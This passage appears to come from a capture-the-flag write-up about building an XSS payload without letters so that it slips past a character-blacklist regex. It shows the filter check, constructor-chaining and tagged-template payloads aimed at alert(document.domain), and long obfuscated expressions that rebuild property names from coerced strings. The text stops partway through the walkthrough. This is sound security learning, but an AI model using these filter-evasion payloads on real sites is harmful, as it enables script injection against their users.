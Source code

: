 ```

- https://techiavellian.com/constructing-an-xss-vector-using-no-letters

I came to the conclusion that I probably want my payload to looks something like the following: 
```
["sub"]["constructor"]`$${alert`1`}$````
```

Oh boy, I didn't know my payload was naively constructed at this point. Well I tried and failed.

So I took some steps back and tested only the following input in the developer console: 

```
["sub"]["constructor"]
--> // ƒ Array() { [native code] }
```

Ok it seems that it's evaluated at some level. So just to be sure this would work I inserted a breakpoint in the browser debugger on the  `if (!operation.match(/[a-df-z<>()!\\='"]/gi))` statement and submitted our esoteric payload and ran `eval(operation)` when the breakpoint was hit:

```
`
[[e+``, e-1+``][0][19]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][2]][[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]]

```
![IMG5](IMG5.png)

Nice! This was another win for us ! Now we have confirmed that we are on the right path. So rereading the article by the great @Gareth Heyes I realized that my payload was all a bit short handed. 

The real payload I wanted was: 
```
["sub"]["constructor"]["constructor"]`$${alert(document.domain)}$```
```
Notice an issue in this payload? We are missing the ability to add parantheses `()`. This is where my previous mistake came into aid the ` ["sub"]["constructor"]` payload gave the ability to add parantheses as follows by running the in the dev console: 

```
Programming for humans: 
["sub"]["constructor"]+``

Results:
"function Array() { [native code] }"

Esoteric program: 
[``+[[e+``, e-1+``][0][19]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][2]][[e+``, e-1+``][0][5]+[e+``, e-1+``][0][1]+[e+``, e-1+``, [][[]]+``][2][1]+[e+``, e-1+``][0][19]+[e+``, e-1+``][0][6]+[e+``, e-1+``][0][16]+[e+``, e-1+``, [][[]]+``][2][0]+[e+``, e-1+``][0][5]+[e+``, e-1+``][0][26]+[e+``, e-1+``][0][1]+[e+``, e-1+``][0][16]]]

